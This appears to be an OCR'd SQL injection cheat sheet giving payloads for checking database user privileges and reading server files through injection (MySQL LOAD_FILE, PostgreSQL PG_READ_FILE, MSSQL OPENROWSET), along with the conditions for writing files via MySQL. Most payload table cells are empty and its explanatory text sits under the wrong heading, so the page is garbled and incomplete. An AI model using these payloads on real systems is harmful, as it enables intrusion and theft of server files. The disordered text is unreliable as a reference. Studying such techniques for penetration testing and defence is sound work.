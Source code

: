 | DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'[DB_USER]@localhost'"        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   

* * *

# Files
First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

## Read

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | LOAD_FILE('/path/to/file')        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |  

To be able to write files to the back-end server using a MySQL database, we require three things:

* User with FILE privilege enabled
* MySQL global secure_file_priv variable not enabled
* Write access to the location we want to write to on the back-end server


### PostgreSQL
```sql
PG_READ_FILE('/path/to/file')
```

### MSSQL
```sql
OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)
```
